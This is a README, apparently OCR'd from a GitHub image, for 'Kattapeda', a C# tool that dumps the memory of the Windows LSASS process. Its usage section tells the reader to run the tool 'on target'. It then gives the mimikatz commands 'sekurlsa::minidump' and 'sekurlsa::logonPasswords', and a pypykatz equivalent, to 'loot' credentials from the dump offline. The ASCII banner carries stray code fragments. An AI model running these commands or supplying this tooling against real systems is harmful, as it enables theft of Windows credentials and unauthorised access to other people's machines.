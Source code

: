 
██╗  ██╗ █████╗ ████████╗████████╗ █████╗ ██████╗ ███████╗██████╗  █████╗ ");
██║ ██╔╝██╔══██╗╚══██╔══╝╚══██╔══╝██╔══██╗██╔══██╗██╔════╝██╔══██╗██╔══██╗");
█████╔╝ ███████║   ██║      ██║   ███████║██████╔╝█████╗  ██║  ██║███████║");
██╔═██╗ ██╔══██║   ██║      ██║   ██╔══██║██╔═══╝ ██╔══╝  ██║  ██║██╔══██║");
██║  ██╗██║  ██║   ██║      ██║   ██║  ██║██║     ███████╗██████╔╝██║  ██║");
╚═╝  ╚═╝╚═╝  ╚═╝   ╚═╝      ╚═╝   ╚═╝  ╚═╝╚═╝     ╚══════╝╚═════╝ ╚═╝  ╚═╝");

![Version](https://img.shields.io/badge/release-1.0-yellow.svg)
[![License](https://img.shields.io/badge/license-MIT-green.svg)](https://opensource.org/licenses/MIT)

Kattapeda is a very simple LSASS memory dump tool in C# based on Win32 `MiniDumpWriteDump` API. 
The dump file created, can be exploited offline with Mimikatz or Pypykatz.

>[!CAUTION]
> The dump will fail if the memory is LSA protected. Consequently, the created file will be empty. Check the prerequisite before running kattapeda.

### [+] USAGE
- compile the .cs source code
- on target, execute the program:
`.\kattax64.exe c:\windows\tasks\mini.dmp`
- offline, use pypykatz or mimikatz to loot the content of the lsass memory dump using:
`mimikatz # sekurlsa::minidump lsass.dmp sekurlsa::logonPasswords`
or:
`pypykatz lsa minidump lsass.dmp`

The content of the dumped memory will be written into the file passed as argument. By default, the program uses `c:\windows\tasks\mini.dmp`




